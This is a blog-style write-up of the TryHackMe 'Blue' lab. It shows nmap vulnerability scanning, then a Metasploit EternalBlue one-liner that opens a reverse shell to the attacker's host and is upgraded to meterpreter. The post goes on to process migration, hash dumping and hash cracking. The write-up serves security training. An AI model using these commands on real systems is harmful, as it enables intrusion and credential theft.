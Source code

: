 ```yaml
---
layout: post
title: "TryHackMe - Blue"
date: 2023-06-29 15:30:00 -0000
categories: javascript web development
excerpt: "Vulnerability scanning using nmap, exploitation using metasploit. Examples of creating a reverse TCP shell, upgrading the shell, process migration, hash cracking, and search to find flags."
featured_image: "/assets/images/thm-blue/thm-blue-hero.png"
---
```


## Recon  

**Set a terminal environmental variable for target IP address**  

```
export IP=<target-ip-address> 
```

**Run nmap services and vulnerabilities scan**  

```  
nmap -sV -vv --script=vuln $IP  
```  

![](/assets/images/thm-blue/thm-blue-nmap-command.png)    

**Results**  

![](/assets/images/thm-blue/thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability affecting Microsoft SMBv1 servers (ms17-010).  

More info:  

https://www.exploit-db.com/exploits/41891  

## Exploit  

**Run msfconsole and perform reverse TCP shell exploit**
```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  
```  

> We can set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally).  

**Metasploit go brrrr...**    

 ![](/assets/images/thm-blue/thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is now running.  

**Results**  

  ![](/assets/images/thm-blue/thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, but eventually we get a reverse TCP shell.  

**Backgrounding the shell example**    

```  
background  
```  
  
> Ctrl-z does the same thing.  

 ![](/assets/images/thm-blue/thm-blue-background-example.png)

**Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell**  

**Search for the upgrade script**   
```
search upgrade shell   
```  

 ![](/assets/images/thm-blue/thm-blue-search-upgrade-shell-1.png)  

**Select the script for use**  

```  
use shell_to_meterpreter  
```
> Alternative: "use 4" (4th result in searches).  
  A Super l33t hax0r trick about upgrading shells is here...  
 https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html 

 ![](/assets/images/thm-blue/thm-blue-run-upgrade-shell.png)  

**Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell**  

 ![](/assets/images/thm-blue/thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

**Run the script**  

 > The script ran, but we don't have an upgraded shell...

**Hmmm. Thats not working...**  
 
 For some reason, the script isn't upgrading our reverse TCP shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

**Let's try again**  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;setg RHOSTS $IP;setg LHOST tun0;run"  
```  
 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default. Also, we don't have to set the global variables again, but this is the handy initial one-liner to go back to and use, cause honestly the reverse TCP shell kinda sucks.  

 ![](/assets/images/thm-blue/thm-blue-meterpreter-default.png)  

**Background the meterpreter session, then view sessions. We started with default meterpreter shell**  

 ![](/assets/images/thm-blue/thm-blue-meterpreter-session-started.png)

**Reconnect to the meterpreter session and list the current processes running on the target**  

 ![](/assets/images/thm-blue/thm-blue-meterpreter-ps.png)  

**Get process ID of current meterpreter shell**

 ![](/assets/images/thm-blue/thm-blue-meterpreter-getpid.png)  

**Migrate to another process and back. Grep is kinda broken...**  

 ![](/assets/images/thm-blue/thm-blue-meterpreter-migrate.png)  

**Dump the user hashes**  

 ![](/assets/images/thm-blue/thm-blue-meterpreter-hashdump.png)  

**Quick and dirty hash crack using CrackStation**  

 ![](/assets/images/thm-blue/thm-blue-crackstation.png)  

**Quick and dirty find flags**  

 ![](/assets/images/thm-blue/thm-blue-find-flags.png)  

# Donezo Funzo.












